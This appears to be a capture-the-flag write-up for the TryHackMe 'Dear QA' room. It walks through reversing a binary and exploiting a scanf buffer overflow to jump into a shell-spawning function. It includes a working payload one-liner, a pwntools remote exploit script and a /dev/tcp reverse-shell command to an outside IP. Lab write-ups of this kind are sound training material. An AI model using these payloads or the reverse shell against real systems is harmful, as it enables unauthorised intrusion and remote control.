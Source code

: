 ```yaml
---
layout: post
title:  "Dear QA"
categories: [tryhackme]
tags: [linux,elf,BOF,ghidra,objdump]
---
```


You can find this machine here : https://tryhackme.com/room/dearqa

### Understanding the `DearQA.DearQA` binary

The `segmentation fault` means that the software has attempted to access a restricted area of memory.
This means that maybe there is a buffer overflow vulnerability

![image]( /assets/img/dearqa/1.PNG)

### Analyzing the `DearQA.DearQA` in Ghidra 

### Main Function

![image]( /assets/img/dearqa/2.PNG)

```c

undefined8 main(void)

{
  undefined local_28 [32];
  
  puts("Welcome dearQA");
  puts("I am sysadmin, i am new in developing");
  printf("What's your name: ");
  fflush(stdout);
  __isoc99_scanf(&DAT_00400851,local_28);
  printf("Hello: %s\n",local_28);
  return 0;
}
```

### Vuln Function

![image]( /assets/img/dearqa/3.PNG)

```c

void vuln(void)

{
  puts("Congratulations!");
  puts("You have entered in the secret function!");
  fflush(stdout);
  execve("/bin/bash",(char **)0x0,(char **)0x0);
  return;
}
```

- The scanf is vulnerable to buffer overflow
- We know that the buffer size is 32 bytes, let's exploit it
- Also, we found the vuln function, our goal is to jump from the scanf to the vuln function
- This is possible by using the buffer overflow attack and call the address of the vuln function

### Finding the addresses using the objdump

```bash
objdump -d ./DearQA.DearQA
```

- main

```assembly
00000000004006c3 <main>:
  4006c3:       55                      push   %rbp
  4006c4:       48 89 e5                mov    %rsp,%rbp
  4006c7:       48 83 ec 20             sub    $0x20,%rsp
  4006cb:       bf 03 08 40 00          mov    $0x400803,%edi
  4006d0:       e8 4b fe ff ff          call   400520 <puts@plt>
  4006d5:       bf 18 08 40 00          mov    $0x400818,%edi
  4006da:       e8 41 fe ff ff          call   400520 <puts@plt>
  4006df:       bf 3e 08 40 00          mov    $0x40083e,%edi
  4006e4:       b8 00 00 00 00          mov    $0x0,%eax
  4006e9:       e8 42 fe ff ff          call   400530 <printf@plt>
  4006ee:       48 8b 05 1b 05 20 00    mov    0x20051b(%rip),%rax
  4006f5:       48 89 c7                mov    %rax,%rdi
  4006f8:       e8 73 fe ff ff          call   400570 <fflush@plt>
  4006fd:       48 8d 45 e0             lea    -0x20(%rbp),%rax
  400701:       48 89 c6                mov    %rax,%rsi
  400704:       bf 51 08 40 00          mov    $0x400851,%edi
  400709:       b8 00 00 00 00          mov    $0x0,%eax
  40070e:       e8 6d fe ff ff          call   400580 <__isoc99_scanf@plt>
  400713:       48 8d 45 e0             lea    -0x20(%rbp),%rax
  400717:       48 89 c6                mov    %rax,%rsi
  40071a:       bf 54 08 40 00          mov    $0x400854,%edi
  40071f:       b8 00 00 00 00          mov    $0x0,%eax
  400724:       e8 07 fe ff ff          call   400530 <printf@plt>
  400729:       b8 00 00 00 00          mov    $0x0,%eax
  40072e:       c9                      leave  
  40072f:       c3                      ret    
```


- The hex value `0x20` is 32 in decimal 

![image]( /assets/img/dearqa/4.PNG)

- So the following assembly is the same with this c language representation : `undefined local_28 [32];`

```bash
4006c7:       48 83 ec 20             sub    $0x20,%rsp
```

- After that the scanf uses the defined buffer size to read the user input
- So the following assembly is the same with this c language representation : `__isoc99_scanf(&DAT_00400851,local_28);`

```bash
40070e:       e8 6d fe ff ff          call   400580 <__isoc99_scanf@plt>
400713:       48 8d 45 e0             lea    -0x20(%rbp),%rax
```

- vuln

```assembly

0000000000400686 <vuln>:
  400686:       55                      push   %rbp
  400687:       48 89 e5                mov    %rsp,%rbp
  40068a:       bf b8 07 40 00          mov    $0x4007b8,%edi
  40068f:       e8 8c fe ff ff          call   400520 <puts@plt>
  400694:       bf d0 07 40 00          mov    $0x4007d0,%edi
  400699:       e8 82 fe ff ff          call   400520 <puts@plt>
  40069e:       48 8b 05 6b 05 20 00    mov    0x20056b(%rip),%rax
  4006a5:       48 89 c7                mov    %rax,%rdi
  4006a8:       e8 c3 fe ff ff          call   400570 <fflush@plt>
  4006ad:       ba 00 00 00 00          mov    $0x0,%edx
  4006b2:       be 00 00 00 00          mov    $0x0,%esi
  4006b7:       bf f9 07 40 00          mov    $0x4007f9,%edi
  4006bc:       e8 8f fe ff ff          call   400550 <execve@plt>
  4006c1:       5d                      pop    %rbp
  4006c2:       c3                      ret
```

- The address of `vuln` is 00400686 in hex.

```bash
0000000000400686 <vuln>:
```

### Local exploitation

The little endian format of `0000000000400686` is `\x86\x06\x40\x00\x00\x00\x00\x00`

### Explain the payload

1. "A"*32 to reach the maximum buffer capacity
2. "B"*8 to reach the RSP and put the address of the `vuln` function

```bash
ruby -e 'print "A"*32 + "B"*8 + "\x86\x06\x40\x00\x00\x00\x00\x00"' | ./DearQA.DearQA
```

![image]( /assets/img/dearqa/5.PNG)

### Remote Exploitation

```bash
pip3 install pwntools
```

- final script

```python
from multiprocessing import context
from pwn import *


con = remote('10.10.115.156', 5700)

payload  = 'A'*32
payload += 'B'*8
payload += '\x86\x06\x40\x00\x00\x00\x00\x00'

con.recvuntil("What's your name: ")
con.sendline(payload)
con.interactive()
```

- in action & spawn revershe shell

```bash
python3 dearqa.py
sh -i >& /dev/tcp/10.18.45.56/4444 0>&1
```

![image]( /assets/img/dearqa/6.PNG)



